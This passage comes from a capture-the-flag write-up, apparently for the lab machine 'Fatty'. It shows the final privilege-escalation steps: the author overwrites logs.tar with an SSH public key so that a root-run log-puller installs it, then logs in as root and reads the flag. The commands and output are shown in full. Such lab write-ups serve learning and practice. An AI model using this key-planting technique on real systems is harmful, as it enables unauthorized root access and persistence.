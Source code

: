 After the file is copied, we can overwrite the archive with our ssh-key.

```bash
2f265ce12800:/opt/fatty/tar$ echo 'ssh-rsa AAAAB[...]/Ubas=' > logs.tar
```

Now we have to wait again for the public-key to be transferred.

```bash
root@darkness:~# ssh -i id_rsa root@10.10.10.174
Linux fatty 4.9.0-11-amd64 #1 SMP Debian 4.9.189-3+deb9u1 (2019-09-20) x86_64
[...]
Last login: Wed Jan 29 12:31:22 2020
root@fatty:~#
```

After waiting a bit, we can ssh to the server as root.

```bash
root@fatty:~# ls -lh
total 24K
drwxr-xr-x 4 root root 4.0K Jul 27 11:51 client1
drwxr-xr-x 4 root root 4.0K Jul 27 11:51 client2
drwxr-xr-x 4 root root 4.0K Jul 27 11:51 client3
-rw-r--r-- 1 root root  616 Jul 27 11:51 log-puller.log
-rwxr-xr-x 1 root root 2.2K Oct 30  2019 log-puller.sh
-rw------- 1 root root   33 Oct 30  2019 root.txt
```

Now as we have a shell as root, we can read root.txt.

```bash
root@fatty:~# cat root.txt 
ee982***************************
```
